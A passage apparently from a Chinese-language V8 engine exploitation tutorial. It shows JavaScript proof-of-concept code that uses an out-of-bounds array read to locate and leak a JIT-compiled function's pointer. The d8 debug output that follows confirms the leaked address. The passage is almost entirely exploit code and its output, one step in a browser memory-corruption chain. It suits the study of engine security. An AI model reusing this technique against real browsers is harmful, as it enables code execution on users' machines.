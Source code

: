 ```javascript
        }
    }
) });

let jit_func_obj_ptr = 0;
for (let i = 0; i < maxSize; i++) {
    let val = Int64.fromDouble(oobArray[i]);
    if (val == 0x432100000000) {
        console.log('Found', i);
        jit_func_obj_ptr = Int64.fromDouble(oobArray[i + 1]) - 1;
        console.log('JIT Function Pointer: 0x' + jit_func_obj_ptr.toString(16));
        break;
    }
}

console.log("======> objs");
%DebugPrint(objs);

console.log("======> oobArray");
%DebugPrint(oobArray);
```

输出如下，可以看到我们搜到的函数指针和调试打印出来的函数指针一样
```shell
➜  gn git:(1dab065bb4) ✗ ./d8 --allow-natives-syntax Poc.js     
======> func_to_overwrite
DebugPrint: 0x228b18b298d9: [Function] in OldSpace
 - map: 0x228be2d02519 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x228b18b04611 <JSFunction (sfi = 0x228b52305559)>
 - elements: 0x228b52302251 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: 
 - initial_map: 
 - shared_info: 0x228b18b282e1 <SharedFunctionInfo func_to_overwrite>
 - name: 0x228b18b27591 <String[17]: func_to_overwrite>
 - formal_parameter_count: 0
 - kind: NormalFunction
 - context: 0x228b18b29489 <FixedArray[9]>
 - code: 0x1af9bdb5f041 <Code OPTIMIZED_FUNCTION>
 - source code: () {
    let sum = 0;
    for (let i = 0;i < 0x100; i++) {
        sum += i;
    }
    return sum;
}

Found 258
JIT Function Pointer: 0x228b18b298d8

======> objs
DebugPrint: 0x228b31286141: [JSArray]
 - map: 0x228be2d02729 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x228b18b05539 <JSArray[0]>
 - elements: 0x228b31294051 <FixedArray[140]> [PACKED_ELEMENTS]
 - length: 100
 - properties: 0x228b52302251 <FixedArray[0]> {
    #length: 0x228b5234ff89 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x228b31294051 <FixedArray[140]> {
           0: 0x228b31294821 <Object map = 0x228be2d0da99>
           1: 0x228b31294849 <Object map = 0x228be2d0da99>
           2: 0x228b31294871 <Object map = 0x228be2d0da99>

            ......
```